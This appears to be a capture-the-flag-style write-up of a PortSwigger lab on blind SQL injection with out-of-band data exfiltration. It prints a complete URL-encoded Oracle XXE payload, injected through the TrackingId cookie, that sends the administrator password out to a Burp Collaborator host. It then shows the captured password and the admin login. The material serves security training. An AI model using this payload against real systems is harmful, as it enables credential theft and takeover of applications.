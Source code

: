 
### Blind SQL injection with out-of-band data exfiltration : PRACTITIONER

---

> Since the application executes the SQL asynchronously and has no effect on the application response, we can try and trigger and out of band network interaction.


> Capturing a `GET` request using BURPSUITE PROXY HTTP history, we see the `TrackingId` cookie that is vulnerable.

![](./screenshots/lab17-1.png)

>  Opening the [SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) and trying the different out of band payloads and placing them in the `TrackingId` cookie with the burp collaborator domain.
>  We also enter our payload to get the password for the `administrator` user.
```
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.go8loz9vn6mt7hst7vugtmtsljrcf33s.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```


> Opening collaborator and polling we see the following DNS requests, confirming that we executed SQL statements.

![](./screenshots/lab18-1.png)

> And the password is selected.

```
q66xkdcyutnmz6rkju7h
```

> Logging in as `administrator:q66xkdcyutnmz6rkju7h` completes the lab.

---
